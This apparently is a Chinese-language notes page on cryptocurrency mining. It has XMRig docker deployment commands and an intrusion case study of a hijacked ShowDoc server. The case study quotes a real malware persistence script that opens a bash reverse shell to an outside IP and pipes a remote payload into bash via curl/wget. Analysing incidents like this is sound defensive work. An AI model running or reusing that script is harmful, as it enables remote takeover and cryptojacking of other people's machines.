         # docker 部署
        docker run --restart=always --network host -d -v /etc/xmrig/config.json:/etc/xmrig/config.json -e CPU_USAGE=80 --name xmr snowdream/xmr

        # 查看是否有GPU
        lspci | grep -i vga # 查看是否有AMD
        lspci | grep -i nvidia # 查看是否有N卡
        ```
    - Centos下CPU加入MinerGate矿池教程 https://www.bobobk.com/973.html
        - centos7上编译CPUMiner-Multi并在minergate矿池中挖矿，不过由于是cpu，效率较低，1核的速度只有大约20 H/s的速度

## 入侵案例

### 基于apache-php-linux环境的ShowDoc应用

- 服务器症状
    - 发现服务器CPU和内存占用较高
    - 且出现很多apache用户进程，如`apache   19483     1 13 May08 ?        02:32:29 /tmp/.inis`和`apache   19483     1 13 May08 ?        02:32:29 /tmp/.libs`等
    - ShowDoc应用文件上传目录，存在一些`.php`的脚本文件，且存在`xmrig`的执行程序
- 查看`/tmp/.inis`发现如下

```bash
#!/bin/bash
while :
do
if [ -w /usr/sbin ]; then
  SPATH=/usr/sbin
else
  SPATH=/tmp
fi
MD5_1_XMR="e5c3720e14a5ea7f678e0a9835d28283"
MD5_2_XMR=`md5sum $SPATH/.libs | awk '{print $1}'`
if [ "$MD5_1_XMR" = "$MD5_2_XMR" ]
then
  if [ $(netstat -ant|grep '107.172.214.23:80'|grep 'ESTABLISHED'|grep -v grep|wc -l) -eq '0' ]
  then
    $SPATH/.libs
  elif [ $(netstat -ant|grep '198.46.202.146:8899'|grep 'ESTABLISHED'|grep -v grep|wc -l) -eq '0' ]
  then
    bash -i >& /dev/tcp/198.46.202.146/8899 0>&1
  else
    echo "ok"
  fi
else
  (curl -s http://w.apacheorg.top:1234/xmss||wget -q -O - http://w.apacheorg.top:1234/xmss)|bash -sh
fi
sleep 30m
done
```
- 上述脚本会从`http://w.apacheorg.top:1234/xmss`下载一个脚本


[^1]: https://www.ruanyifeng.com/blog/2017/12/blockchain-tutorial.html (区块链入门教程)
[^2]: http://www.ruanyifeng.com/blog/2018/01/bitcoin-tutorial.html (比特币入门教程)
[^3]: https://www.infoq.cn/article/2018/09/how-choose-blockchain-framework
[^4]: https://www.codenong.com/cs106604338/ (基于java开发一套完整的区块链系统详细教程)
[^5]: http://www.wabi.com/news/24364.html